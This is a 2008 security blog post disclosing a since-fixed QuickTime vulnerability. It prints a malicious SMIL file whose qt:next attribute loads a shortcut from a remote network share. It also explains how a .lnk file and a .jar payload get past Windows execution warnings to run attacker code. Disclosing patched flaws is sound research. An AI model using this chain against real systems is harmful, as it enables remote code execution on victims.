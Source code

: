 ```yaml
---
title: Details of the QuickTime Vulnerability
author: pdp
date: Tue, 09 Sep 2008 14:24:38 GMT
template: post.pug
---
```


In this post I intend to give a brief overview of the QuickTime vulnerability which I partially-disclosed over [here](/blog/quicktime-0day-for-vista-and-xp/). I should have made these details public long time ago but better late than never. The vulnerability has been fixed for several months now and I believe it is safe to talk about it in the public.

Let's start with an example. The following is the source code of a malicious QuickTime SMIL file:

```xml
**SMILtext** <smil
xmlns:qt="http://www.apple.com/quicktime/resourc
es/smilextensions" qt:autoplay="true"
qt:next="**file://172.16.3.124/evil/evil.lnk**">
<body>
<seq repeatCount="indefinite">
<img src="test.jpg" dur="1s"/>
<img src="test.jpg" dur="1s"/>
</seq>
</body>
</smil>
```

First of all, we start with the SMIL header (`SMILtext`). This is necessary in order to masquerade the file as a different file type, i.e. if we paste the above text into a file with extension `.mp3`, it will still play in QuickTime. We can use practically any other file extension which defaults to the QuickTime player.

After that we follow with a very standard SMIL document. The most interesting information in order to make the exploit works is contained inside the `qt:next` attribute of the `smil` root element. This attribute instructs QuickTime to play another media file after we are done with the current one. The attribute expects a URL which can start with the `file://` protocol handler. This is understandable since we might want to play local files as well as remote ones, i.e. `http://`.

The URL is passed to the `FileProtocolHandler` from `url.dll`. The function understands that we are asking for a local resource. However, pay attention on the format of the URL we are passing. Let's take a closer look: `file://172.16.3.124/evil/evil.lnk`

Most of you will recognize that this is a URL which points to a NETBIOS share located on `172.16.3.124`.

Perhaps you are thinking that this is the problem. Well yes, but we are not there just yet. Initially, when I was playing with this bug, I was trying to launch a URL like this one: `file://172.16.3.124/evil/evil.exe`. The URL points to an executable. Unfortunately, the attack was failing because usually XP SP1 and up, I believe (excuse my ignorance), will warn you that you are trying to execute an application from an untrusted share. Typically, you will see a warning box but because `FileProtocolHandler` suppresses that, the function silently fails. I've tried with `.bat`, `.cmd`, `.vbs`, `.js`, `.application` and other known executable file formats but none of them seemed to work. This is due to the fact that the operating system knows that these files are executables and could harm your system, therefore it prevents their execution.

So I needed to find a file format which is executable but Windows does not know about it just yet. It seems that `.jar` fits perfectly my requirements. `.jar` is the file extension of the JAR archive, a ZIP archive with a manifest file which instructs the Java interpreter what class should be executed as the main one. `.jar` files are executable as long as you have Java on your system.

So we are done! Right? Not quite. If you try to send `file://172.16.3.124/evil/evil.jar` to `FileProtocolHandler` you will notice that `java.exe` fails with an error messages informing you that there is no such class. What happens is that Java does not understand what `file://172.16.3.124/evil/evil.jar` actually is. This is due to the fact that the URL notation we are using is non-standard, i.e. it is made up by Microsoft's engineers to seamlessly incorporate NETBIOS shares into the operating system.

So what do we do? It took me some time to figure this out. My approach is very simple. First of all we create a simple `.lnk` (link/shortcut) file in the same directory where the malicious `.jar` file is located. Then we use the shortcut to rewrite the URL from `file://172.16.3.124/evil/evil.jar` to `\\172.16.3.124\evil\evil.jar`, which is the correct NETBIOS notation. The Java interpreter is very much aware of this syntax and it will happily load the file and attack the victim's system.

> In summary, I had to go from QuickTime to Windows Internals to URL Manipulation to Java. However, the attack is very simple to implement and understand, yet very effective. I must say that you can definitely win a laptop on the annual POWN2OWN contest by using as simple trick as the one presented here. Security vulnerabilities do not have to be complicated!

_I am planning to talk about the impact of this attack in my next post._
